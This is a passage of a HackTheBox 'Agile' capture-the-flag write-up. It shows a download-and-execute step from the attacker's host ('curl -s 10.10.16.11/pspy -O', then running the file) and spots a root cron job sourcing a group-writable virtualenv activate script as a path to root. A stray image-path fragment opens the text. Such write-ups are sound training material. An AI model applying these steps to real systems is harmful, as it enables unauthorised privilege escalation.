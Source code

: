 Got it.

### edwards -> root

Download [pspy](https://github.com/DominicBreuker/pspy) and execute:

In kali:

```console
root@kali:~/htb/Machines/Agile# curl -sLo pspy https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s

root@kali:~/htb/Machines/Agile# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.228.212 - - [05/Aug/2023 08:43:57] "GET /pspy HTTP/1.1" 200 -
```

In target:

```console
edwards@agile:~$ curl -s 10.10.16.11/pspy -O

edwards@agile:~$ chmod +x pspy

edwards@agile:~$ ./pspy
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2023/08/04 23:44:56 CMD: UID=1002  PID=35767  | ./pspy
(snip)
2023/08/04 23:47:01 CMD: UID=0     PID=35977  | /bin/bash -c source /app/venv/bin/activate
(snip)
2023/08/04 23:51:01 CMD: UID=0     PID=36048  | /bin/bash -c source /app/venv/bin/activate
```

`/app/venv/bin/activate` is executed by cron.

```console
edwards@agile:~$ id
uid=1002(edwards) gid=1002(edwards) groups=1002(edwards)
edwards@agile:~$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Aug  4 09:33 /app/venv/bin/activate
```
